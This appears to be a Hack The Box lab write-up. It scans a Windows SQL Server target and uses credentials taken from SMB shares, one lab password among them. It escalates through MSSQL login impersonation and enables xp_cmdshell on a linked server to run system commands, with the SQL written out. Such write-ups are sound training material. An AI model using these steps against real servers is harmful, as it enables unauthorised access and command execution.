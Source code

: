 # Assessment Hard

## Enumeration

### Rustscan

```
Open 10.129.203.10:135
Open 10.129.203.10:445
Open 10.129.203.10:1433
Open 10.129.203.10:3389

```

### NMAP

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 07:27 EDT
Stats: 0:02:45 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.45% done; ETC: 07:34 (0:04:26 remaining)
Stats: 0:03:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.92% done; ETC: 07:34 (0:03:55 remaining)
Nmap scan report for 10.129.203.10
Host is up (0.20s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.203.10:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.203.10:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-06-29T11:21:57
|_Not valid after:  2053-06-29T11:21:57
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2023-06-28T11:21:47
|_Not valid after:  2023-12-28T11:21:47
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2023-06-29T11:33:29+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (85%)
Aggressive OS guesses: Microsoft Windows Server 2019 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-06-29T11:33:32
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 389.45 seconds

```



<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

We have access to the smb share and got all the files which seems to be credentials of all of them.

* Fiona -> not sure what level and services
* John -> Database (in this box could be MSSQL)
* Simon -> not sure too

Tried Fiona with RDP and got the credentials.

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption><p>Fiona:48Ns72!bns74@S84NNNSl</p></figcaption></figure>

Connected to the RDP session but nothing found. Tried to use the credentials with windows authen to access the mssql

Where able to impersonate to another user using fiona

```
EXECUTE AS LOGIN = 'john'
```

Realized that in John's SMB there was a file hinting to the impersonation and external database (second database).

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>information.txt</p></figcaption></figure>

Found remote database.

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p>WINSRV02\SQLEXPRESS</p></figcaption></figure>

But can't select the database server because of the impersonated user are not able to access.

I then realized that I can use the sqlcmd in the rdp session and get the list of users that I could impersonate.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p>john and simon</p></figcaption></figure>

user John doesn't have any more privilege than the user Fiona, I tried to use user Simon and it was able to access the database where Fiona and John can't.

Listing the database gave me 2 different users julio and patric.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption><p>julio and patric</p></figcaption></figure>

I confirmed that both of them are not users of the operating system so the only option left is database user. I could try to access the database with the following user and try to change the database server.

Sadly both of them were unable to make a new connection to the database.

From the Hint on Hack the box forum I realized that the John user was an admin user but on the linked database. By so I could execute command through that server.

<pre class="language-sql"><code class="lang-sql">1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
2> go
<strong>1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'xp_cmdshell', 1;
</strong><strong>2> go
</strong><strong>Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
</strong><strong>1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];     
</strong><strong>2> go
</strong><strong>1> EXECUTE ("xp_cmdshell 'dir C:\Users'") AT [LOCAL.TEST.LINKED.SRV]
</strong><strong>2> go
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>flag</p></figcaption></figure>

This assessment wasn't hard but impossible, given the contents in module, no one who just started the learning path could figure this out without help.
